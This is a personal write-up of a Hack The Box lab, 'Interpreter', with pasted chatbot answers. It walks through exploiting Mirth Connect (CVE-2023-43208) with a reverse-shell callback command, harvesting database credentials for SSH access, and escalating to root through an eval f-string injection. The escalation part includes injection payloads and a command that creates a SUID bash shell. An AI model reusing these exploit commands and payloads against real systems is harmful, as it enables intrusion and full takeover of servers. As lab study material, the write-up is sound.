

# Interpreter



No details given here, besides the ‘Target IP Address’.

Pinging the IP to make sure i’m connected to it.

I’m in ‘interpreter’ inside the ‘Desktop’ directory, and I ping the Target IP Address.


Nmap scan to scan the IP. -sC for default scripts, -sV to get the versions of the things detected on the open ports, and to scan the ports. Sometimes we even get the URL to add to /etc/hosts.

I then send the output of that command (> nmap_results.txt), to a file i’ll name ‘nmap_results.txt’.


Looking at the nmap results, I see port 22 is open for SSH.

Port 80 is open, for http. Says ‘Jetty’ under the version.

Port 443 is open. SSL/HTTP. Also Jetty.

http title: Mirth Connect Administrator

i’m not sure if I can add anything to /etc/hosts/ right now with any of this.

without add anything to the /etc/hosts file, we open firefox, and type in just,

“http://10.129.244.184”

This is where you end up:


Here, I see the URL changed, adding: /webadmin/index.action      to what I typed myself.

There’s ‘Launch Mirth Connect Administrator’

‘Download Administrator Launcher’

‘Access Secure Site’

and there’s actually a clickable link above Access Secure Site. Saying you can add that certificate to your browser/operating system, to prevent warnings of certificate error, if your server is using a ‘self-signed certificate’.

At the bottom, you see:

copright 2021 NextGen Healthcare | Mirth Connect

I will go and do OSINT on the things individually, and look for known vulnerabilities I can exploit to gave access to their network.

The ‘self-signed certificate:


Takes you to wikipedia definition of.

Clicking ‘Access Secure Site’ (after a warnings page):


When you click on ‘Launch Mirth Connect Administrator’, your browser downloads a file named ‘webstart.jnlp’.

When you click on ‘Download Administrator Launcher’, you get sent here:


this shows a google search for mirth connect nextgen.

using the ‘site:github.com’ in the search, will filter out all the results to only results from github.


Reading what the CVE is and does:


So there’s a critical vulnerability in NextGen Healthcare Mirth Connect, all versions before 4.4.0

The vuln, name CVE-2023-43208 allowd code to be executed on the system, remotely by an unauthenticated user. This can happen on all systems running the specific software versions vulnerable to this.

impact:

In the context of the assessed environment, exploitation of this vulnerability could allow an attacker to:

- Gain unauthorized access to internal systems
- Execute commands on the affected server
- Access sensitive data
- Pivot further into the network

### Example Write-Up

> The application is vulnerable to **CVE-2021-44228**, a critical remote code execution vulnerability affecting Apache Log4j. The issue stems from unsafe handling of user-controlled input within the logging functionality.
> 
> 
> An unauthenticated attacker can exploit this flaw by sending a specially crafted request, causing the server to execute arbitrary code.
> 
> In the assessed environment, successful exploitation would allow an attacker to gain full control of the affected server, potentially leading to compromise of sensitive data and lateral movement within the internal network.
> 

## CVE-2023-43208 – Mirth Connect Remote Code Execution

### Vulnerability Overview

The target system is vulnerable to **CVE-2023-43208**, a Remote Code Execution (RCE) vulnerability affecting **Mirth Connect** (also known as NextGen Connect). The issue arises due to improper input handling within the administrative interface, allowing authenticated users to execute arbitrary code on the underlying server.


We clone the repo inside our ‘interpreter’ directory.


as per the instructions i tried to run the first command, installing ‘requirements.txt’ but i got this error:


So, it’s because:

Perfect — this is **normal on modern Kali**. Nothing is broken.

Kali blocks system-wide `pip` installs to prevent you from breaking the OS (this is called PEP 668 “externally managed environment”).

You are currently:

```
root@kali
```

So you're trying to install into Kali’s protected system Python — and Kali is correctly stopping you.

# ✅ Correct Fix (Recommended for HTB Labs)

Do this inside your exploit folder:

```
python3-m venv venv
```

If that errors, install venv support:

```
apt install python3-venv
```

Then activate it:

```
source venv/bin/activate
```

Your prompt should now change to something like:

```
(venv) root@kali:~/Desktop/interpreter/CVE-2023-43208-EXPLOIT#
```

Now install requirements:

```
pip install-r requirements.txt
```

✔ This will work

✔ It won’t break Kali

✔ This is the correct pentester workflow

# 🧠 Why Kali Does This

Kali protects `/usr/lib/python3` from modification.

If you override system packages, you can:

- Break apt
- Break system tools
- Break HTB lab tooling
- Corrupt dependencies

Virtual environments isolate everything safely.

---

# ⚠️ Do NOT Do This

You *can* bypass it using:

```
pip install--break-system-packages-r requirements.txt
```

But do **not** make this a habit. It’s bad practice in pentesting environments.

---

# 🔥 Best Practice for Exploit Development

For every exploit:

```
python3-m venv exploit-env
source exploit-env/bin/activate
pip install-r requirements.txt
```

When done:

```
deactivate
```

---

If you want, I can also explain:

- When to use `pipx`
- When to use Docker instead
- How this affects CJCA exam workflow
- Why HTB Pwnbox behaves differently

Just tell me what you're running this on next.

ERROR: Cannot install -r requirements.txt (line 3) and packaging==24.0 because these package versions have conflicting dependencies.

The conflict is caused by:
    The user requested packaging==24.0
    pwncat-cs 0.5.4 depends on packaging<21.0 and >=20.9

Additionally, some packages in these conflicts have no matching distributions available for your environment:
    packaging

To fix this you could try to:
1. loosen the range of package versions you've specified
2. remove package versions to allow pip to attempt to solve the dependency conflict

ERROR: ResolutionImpossible: for help visit https://pip.pypa.io/en/latest/topics/dependency-resolution/#dealing-with-dependency-conflicts

Good — this is a **dependency conflict**, not a Kali issue.

The important part of your error is:

```
pwncat-cs 0.5.4 depends on packaging<21.0 and >=20.9
The user requested packaging==24.0
```

So:

- Your `requirements.txt` forces → `packaging==24.0`
- **pwncat-cs** v0.5.4 requires → `packaging < 21.0`
- These cannot exist together
- Pip refuses to install incompatible versions

---

# ✅ Clean Fix (Best Option for HTB Lab)

Edit the `requirements.txt` file.

Open it:

```
nano requirements.txt
```

Find this line:

```
packaging==24.0
```

Change it to:

```
packaging==20.9
```

Save and exit.

Then reinstall:

```
pip install-r requirements.txt
```

That should resolve the conflict immediately.

---

# 🧠 Why This Happens

This exploit repo was likely written when:

- `packaging` was still < 21
- `pwncat-cs 0.5.4` pinned strict dependency limits

But someone later updated the `requirements.txt` to 24.0, which breaks compatibility.

Very common in older exploit repos.

---

# 🔥 Alternative (Faster for Labs)

You could also just remove the strict packaging line entirely.

Delete this line from `requirements.txt`:

```
packaging==24.0
```

Then run:

```
pip install-r requirements.txt
```

Pip will automatically install a compatible version (likely 20.9).

For HTB labs, this is perfectly fine.

---

# ⚠️ Why You Should NOT Upgrade pwncat Instead

You might think:

> "Why not upgrade pwncat-cs?"
> 

Because:

- Exploit code may rely on that exact version
- Newer versions may change functionality
- For lab stability, match the exploit author’s dependency set

---

# 🎯 What I’d Do (Fastest Stable Fix)

Delete the `packaging==24.0` line completely.

Re-run install.

Done.

---

If it errors again, paste the new output and I’ll debug it step-by-step.

ERROR AGAIN

ERROR: Cannot install -r requirements.txt (line 3) and rich==13.7.1 because these package versions have conflicting dependencies.

The conflict is caused by:
    The user requested rich==13.7.1
    pwncat-cs 0.5.4 depends on rich<11.0.0 and >=10.4.0

Additionally, some packages in these conflicts have no matching distributions available for your environment:
    rich

To fix this you could try to:
1. loosen the range of package versions you've specified
2. remove package versions to allow pip to attempt to solve the dependency conflict

ERROR: ResolutionImpossible: for help visit https://pip.pypa.io/en/latest/topics/dependency-resolution/#dealing-with-dependency-conflicts

Same issue again — just a different package.

The key line:

```
pwncat-cs 0.5.4 depends on rich<11.0.0 and >=10.4.0
The user requested rich==13.7.1
```

So again:

- `requirements.txt` is forcing a modern version
- **pwncat-cs** 0.5.4 only works with `rich` < 11
- Pip refuses to install incompatible versions

This exploit repo has badly pinned dependencies.

---

# ✅ Correct Fix (Do This)

Open `requirements.txt`:

```
nano requirements.txt
```

You will likely see:

```
alive_progress==3.1.4
packaging==24.0
pwncat-cs==0.5.4
requests==2.31.0
rich==13.7.1
```

### 🔥 The Clean Solution

Remove these two lines entirely:

```
packaging==...
rich==...
```

Leave:

```
alive_progress==3.1.4
pwncat-cs==0.5.4
requests==2.31.0
```

Save the file.

Then reinstall:

```
pip install-r requirements.txt
```

---

# 🧠 Why This Works

`pwncat-cs` already declares its required versions internally:

- `packaging >=20.9,<21.0`
- `rich >=10.4.0,<11.0.0`

If you stop overriding them, pip will automatically install compatible versions.

Right now the repo is fighting itself.

---

# 🎯 Even Cleaner Option (My Preferred Method for HTB)

Skip the broken file entirely and do this:

```
pip installpwncat-cs==0.5.4 alive_progress requests
```

Let pip resolve everything naturally.

This avoids broken pinning completely.

---

# 💡 Why This Happens So Often

Exploit repos:

- Are rarely maintained
- Pin old versions
- Then someone updates one dependency but not the others
- Result = dependency hell

In real pentesting, you’ll see this constantly.

---

If you want, I can also show you:

- How to inspect dependency trees with `pipdeptree`
- How to downgrade cleanly
- Or how to containerize exploits so this never happens again

You’re doing exactly the right troubleshooting steps, by the way.


a john hammond video has me here, and i’m going to try to PoC shown here


i’ll follow along to learn about th ePoC with the john hammond video.

this is the script without any mods:


as of now we have the xml payload

so, looking at thescript, john’s worried the code might not work on windows. we’ll try first.

we’er adding things to our arguments/parameters, the URL we want to bea tup and the command we want to run.

it posts this to the API users endpoint like their web browser

and includes headesr for x requested with api


thishappened when i tried to run the xploit as is, with ‘notepad.exe’ as the command.

‘payload sent. received status code 405

there’s also a metasploit exploit too

in terminal, when you run ‘msfconsole’  you start metasploit


then, i search the CVE itself, and get nothing, but when i search ‘mirth connect’, i get:


and, it’s the exact same exploit. so i’ll try this.

i’ll try on my own first:

so we ‘use’ the exploit, with option 1 because we know it’s a linux machine


so, we create a metasploit exploit, in the modules/exploits/multi/http directory named mirth.rb


this ‘checks’ if the exploit would owrk on port 443

after setting all the options

┌──(kali㉿kali)-[~/Desktop/interpreter/CVE-2023-43208-EXPLOIT]
└─$
python3 [CVE-2023-43208.py](http://cve-2023-43208.py/) -u [http://10.129.244.184:443](http://10.129.244.184:443/) -lh 10.10.14.60 -lp 1333

[*]  ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██   ██ ██████  ██████   ██████   █████
[*] ██      ██    ██ ██                 ██ ██  ████      ██      ██       ██   ██      ██      ██ ██  ████ ██   ██
[*] ██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████ ███████  █████   █████  ██ ██ ██  █████
[*] ██       ██  ██  ██            ██      ████  ██ ██           ██            ██      ██ ██      ████  ██ ██   ██
[*]  ██████   ████   ███████       ███████  ██████  ███████ ██████             ██ ██████  ███████  ██████   █████

[+] Coded By: K3ysTr0K3R and Chocapikk ( NSA, we're still waiting :D )

[*] Setting up listener on 10.10.14.60:1333 and launching exploit...


checking we’re in 


so we go to cd / the root directoryt


conf directory


reading ‘mirth.properties’


database credentials!


ssh in as sedric:


got user flag


# 🔥 1️⃣ Why This Is Root Escalation

You discovered:

- A **root-owned** process
- Running `/usr/local/bin/notif.py`
- Exposing a local Flask service on port 54321
- It processes attacker-controlled XML

If you can get that process to execute arbitrary code…

👉 It executes **as root**.

That’s your escalation vector.

---

# 🧠 2️⃣ The Core Bug: “Double Evaluation”

Here’s the dangerous part:

```
template=f"Patient{first}{last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from{sender} at{ts}"

returneval(f"f'''{template}'''")
```

Let’s slow this down.

### First evaluation (safe-ish):

```
f"...{first} ...{sender} ..."
```

This inserts your user input into the string.

So if you send:

```
sender = Bob
```

It becomes:

```
Patient Alice Smith (...), received from Bob at ...
```

So far normal.

---

### Second evaluation (dangerous):

```
eval(f"f'''{template}'''")
```

This wraps the string in **another f-string** and runs `eval()` on it.

That means:

Anything inside `{}` gets executed as Python code.

---

# 💣 3️⃣ Why That’s Catastrophic

If you inject:

```
{__import__("os").system("id")}
```

It becomes:

```
eval(f"f'''Patient Alice Smith (...), received from{__import__("os").system("id")} at ...'''")
```

Python executes:

```
__import__("os").system("id")
```

And since the service runs as root…

👉 The command runs as root.

---

# 🧬 4️⃣ Why It’s Called “Double Evaluation”

Because:

1. f-string processes variables
2. eval() processes f-string expressions again

It turns **data** into **code**.

That’s the vulnerability class:

> F-String Injection via eval()
> 

---

# 🚧 5️⃣ The Regex Filter

They tried to protect it with:

```
r"^[a-zA-Z0-9._'\"(){}=+/]+$"
```

Blocked:

- spaces
- commas
- semicolons
- brackets

Allowed:

- ()
- ""
- {}
- .
- /
- =
- 
    - 

So you can still build Python expressions.

Security mistake:

They filtered *characters*, not *behavior*.

---

# 🧨 6️⃣ Why Base64 Is Used

Shell commands need spaces:

```
install -o root -m 4755 /bin/bash /tmp/.sh
```

But spaces are blocked.

So instead:

1. Base64 encode the command
2. Decode it inside Python
3. Execute decoded string

Example logic:

```
__import__("base64").b64decode("ENCODED").decode()
```

That reconstructs:

```
install -o root -m 4755 /bin/bash /tmp/.sh
```

Then:

```
__import__("os").popen(decoded_command).read()
```

Executes it.

---

# 🧨 7️⃣ Why They Use SUID Bash

The command:

```
install -o root -m 4755 /bin/bash /tmp/.sh
```

Does this:

- Copies bash
- Owner: root
- Permission: 4755 (SUID bit set)

SUID means:

When executed, it runs as the file owner (root), not the caller.

So:

```
/tmp/.sh -p
```

gets root.

---

# 🎯 8️⃣ Why This Is Advanced

This chain requires understanding:

- f-strings
- eval()
- Python dynamic execution
- Import mechanics
- Regex bypassing
- Linux SUID permissions
- Payload encoding

It’s not a simple buffer overflow.

It’s logic abuse.

---

# 🧠 9️⃣ Why This Is So Dangerous in Real Life

Because developers think:

> “It’s just a string template.”
> 

But:

```
eval(f"...{user_input}...")
```

Is equivalent to:

> “Please execute attacker-supplied Python code.”
> 

Never use `eval()` on user input.

Especially not inside an f-string.

---

# 🛡 How This Should Have Been Written Safely

Instead of:

```
eval(f"f'''{template}'''")
```

It should have:

- Avoided eval completely
- Used proper string formatting
- Or used a safe template engine

---

# 🧩 Vulnerability Classification

This is:

- Code Injection
- Command Injection
- Insecure Use of eval()
- Privilege Escalation via Trusted Service

---

# 🚀 Final Escalation Flow

1. Find root-owned Flask service
2. Identify f-string eval injection
3. Bypass regex restrictions
4. Inject Python code
5. Execute OS command
6. Create SUID shell
7. Execute SUID shell → root

this says the [notif.py](http://notif.py) file is listening for XML messages


W1LD’s super cool rev shell one-liner


nc listener catching the rev shell connectoin

 file being made, and then showing the http POST request, making the connection to the nc listener. this attempt was the correct one, so the important part is the ‘HTTP request sent, awiting response…’ part. when i saw this, i kinda knew i made the rev shell connection](image%2040.png)

showing the [shell.sh](http://shell.sh) file being made, and then showing the http POST request, making the connection to the nc listener. this attempt was the correct one, so the important part is the ‘HTTP request sent, awiting response…’ part. when i saw this, i kinda knew i made the rev shell connection


